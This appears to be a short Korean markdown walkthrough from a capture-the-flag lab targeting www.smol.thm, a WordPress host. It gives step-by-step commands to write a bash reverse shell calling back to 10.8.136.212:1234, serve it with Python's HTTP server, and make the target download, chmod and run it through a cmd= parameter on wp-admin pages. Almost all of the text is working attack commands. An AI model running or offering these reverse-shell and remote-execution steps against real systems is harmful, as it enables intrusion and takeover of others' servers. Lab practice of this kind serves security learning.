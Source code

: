````markdown
## Python3 설치 및 리버스 쉘 서버 실행법

1. **Python3 설치**

```bash
sudo apt update
sudo apt install python3
```
````

2. **리버스 쉘 스크립트 작성**

```bash
echo "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.8.136.212/1234 0>&1'" > rev.sh
```

3. **공격자가 악성 스크립트 배포를 위한 서빙**

```bash
python3 -m http.server 6666
```

- 현재 디렉터리 파일을 6666 포트로 서비스함

4. **타겟에서 스크립트 다운로드**

```bash
# browser url
http://www.smol.thm/wp-admin/index.php?cmd=wget http://10.8.136.212:6666/rev.sh -O /tmp/rev.sh

# curl
curl -b cookie.txt -L http://www.smol.thm/wp-admin/profile.php?cmd=wget http://10.8.136.212:6666/rev.sh -O /tmp/rev.sh
curl -b cookie.txt -L http://www.smol.thm/wp-admin/index.php?cmd=chmod +x /tmp/rev.sh
```

5. **타겟에서 리버스 쉘 실행**

```
http://www.smol.thm/wp-admin/index.php?cmd=bash /tmp/rev.sh
```
